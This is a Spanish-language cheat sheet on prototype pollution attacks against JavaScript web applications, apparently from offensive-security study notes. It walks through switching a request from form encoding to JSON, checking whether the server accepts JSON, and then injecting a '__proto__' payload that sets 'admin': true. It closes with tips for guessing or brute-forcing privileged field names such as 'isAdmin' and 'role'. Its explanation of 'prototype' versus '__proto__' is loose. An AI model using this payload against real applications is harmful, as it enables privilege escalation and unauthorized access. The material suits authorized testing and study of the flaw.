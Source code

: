 ```yaml
---

### 💥 **Prototype Pollution Cheat Sheet** 💥

---
```

---
#### **¿Qué es el Prototype Pollution?**  
El ataque **Prototype Pollution** explota vulnerabilidades en la implementación de objetos en **JavaScript**.  
Permite al atacante **modificar la propiedad `prototype`** de un objeto, lo que puede llevar a:  
- **Ejecución de código malicioso.**  
- **Manipulación de datos de la aplicación.**  
- **Control de sesiones de usuario.**  

---

### **¿Cómo funciona?**  
1. Los objetos en JavaScript tienen una propiedad llamada `prototype` que define sus métodos y propiedades.  
2. El atacante modifica la propiedad `prototype` de un objeto base, lo que afecta a todas las instancias del objeto.  
3. La aplicación hereda las propiedades manipuladas, lo que puede dar acceso o control no autorizado.  

---

## **Ejemplo de Explotación:**

### **Cambio del Content-Type:**

Algunas aplicaciones envían datos en formato URL-encoded:  
```http
Content-Type: application/x-www-form-urlencoded
email=test@test.com&msg=carlos
```

El truco aquí es cambiar el **Content-Type** a JSON:  
```http
Content-Type: application/json
{
    "email": "test@test.com",
    "msg": "probando"
}
```

---

### **¿Cómo detectar si funciona?**  
1. Verifica si el servidor interpreta los datos en formato JSON.  
2. Intenta provocar un error de sintaxis (faltante de comillas, llave incorrecta) para ver si la solicitud falla.  
3. Si el servidor **no rompe** o **redirige correctamente**, indica que el formato JSON es aceptado.  

---

### *Payload de Prototype Pollution:**  
Una vez confirmado el uso de JSON, intenta inyectar el prototipo:  
```http
Content-Type: application/json
{
    "email": "test@test.com",
    "msg": "probando",
    "__proto__": {
        "admin": true
    }
}
```

---

### **Cómo descubrir el campo vulnerable?**  
- **Intuición:** Campos comunes como `admin`, `isAdmin`, `role`, `superuser`, etc.  
- **Fuerza Bruta:** Prueba múltiples nombres de campo.  
- **Filtración del Código Fuente:** Si el código fuente está accesible, busca objetos con privilegios elevados.  

---
